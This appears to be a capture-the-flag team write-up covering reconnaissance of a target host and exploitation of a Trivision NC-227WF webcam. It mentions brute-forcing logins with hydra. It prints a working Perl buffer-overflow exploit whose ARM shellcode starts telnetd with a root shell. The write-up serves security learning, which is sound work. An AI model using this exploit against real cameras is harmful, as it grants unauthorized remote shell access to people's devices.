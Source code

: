 The team spent hours using hydra to try to brute force both the 8080 and 50628 logins with no luck. 

Up to this point, this is what the team found so far. I didn't detail the tons of research that ultimately led to dead ends.

```
  Ports
    22 - 
    23 - 
    8080 - 
    50628 - Trivision NC-227WF HD 720P
      172.18.0.3 - Internal web cam IP
      / forwards to /en/login.asp
        ENTER button: /form/liveRedirect?lang=en
          forwards to /en/player/mjpeg_vga.asp
        SETTING button /en/main.asp
  http://rh:8080
    /demo/
    /vendor/
      /autoload.php (0KB)
      /composer/ (PHP dependency manager)
        LICENSE
        installed.php (0KB)
        installed.json
          "url":"https://github.com/fabpot",
          "url":"https://github.com/Jean85/pretty-package-versions.git",
          "url":"https://github.com/mongodb/mongo-php-library.git",
          "url":"https://github.com/php-fig/log.git",
          "url":"https://github.com/symfony/polyfill"
          "url":"https://github.com/symfony/polyfill-php80.git",
          "url":"https://github.com/symfony/polyfill-php81.git",
      /mongodb/
        mongodb/mongodb/connect.php
          mongodb://127.0.0.1:27017
      /psr/
        /log/
      /symfony/ (PHP framework)
```
	  

## Solution

One of our team members ran across this [video](https://www.youtube.com/watch?v=Y1bFNZde33Q) which describes how to exploit the webcam using buffer overflow and then turn on telnet. From there we can telnet into the webcam.

Here is the exploit. 

```
#!/usr/bin/perl

$| = 1;
$libc = 0x40021000;

$shellcode = "\x01\x10\x8f\xe2\x11\xff\x2f\xe1\x0b\x27\x24\x1b\x06\xa1\x08\xa2\x90\x1c\x04\xa3\xcc\x71\x54\x72\x1c\x80\x9c\x70\x16\xb4\x69\x46\x92\x1a\x18\x47\xff\xff\x0f\xeftelnetdX-l/bin/shX";
$buf = "A" x 284;
$buf .= pack("V", $libc + 0x00044684);

$req = "GET /form/liveRedirect?lang=${buf} HTTP/1.0\nHost: B${shellcode}\nUser-Agent: ARM/exploitlab\n\n";
print $req;
```	
